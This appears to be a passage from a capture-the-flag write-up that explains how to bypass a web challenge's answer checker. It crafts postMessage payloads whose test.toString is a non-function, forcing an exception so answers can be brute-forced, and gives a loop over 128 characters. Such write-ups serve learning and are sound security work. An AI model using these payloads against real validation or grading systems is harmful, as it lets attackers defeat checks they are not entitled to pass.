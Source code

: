 Looking at `TestCaseError` we can see that `data.test` is appended to a string, meaning
`toString` will be called:

```javascript
function TestCaseError(data) {
  Error.call(this, this.message = 'Wrong answer on test ' + data.test);
}
```

It is easy to cause an exception here, by making `test.toString` not a function:

```javascript
postMessage({
  answer: 'Our Guess',
  test: {toString:'asdf'},
  counters: {cycles: 0}
})
```

Now we can guess as many times as we want. As long as we get it right once this code will
be called:

```javascript
.then(function(results) {
  showUser('Your code is correct!');
  var cycles = results.reduce(function(acc, result) {
    return acc + result['counters']['cycles'];
  }, 0);
  console.log(cycles, asm.byteLength);
  if (cycles < 20 * tests.length) {
    if (asm.byteLength < 400) {
      showUser(
          'Your answers:' +
          results
              .map(function(result) {
                return result['answer'];
              })
              .join());
      return true;
    } else {
      showUser('Well done! Now make the code smaller.');
    }
  } else {
    showUser('Well done! Now make the code faster.');
  }
})
```

We can do this easily:

```javascript
for(var i=0; i<128; i++) {
    var c = String.fromCharCode(i);
    postMessage({
        answer: c,
        test: { toString:'asdf' },
        counters: { cycles: 0 }
    })
}
```
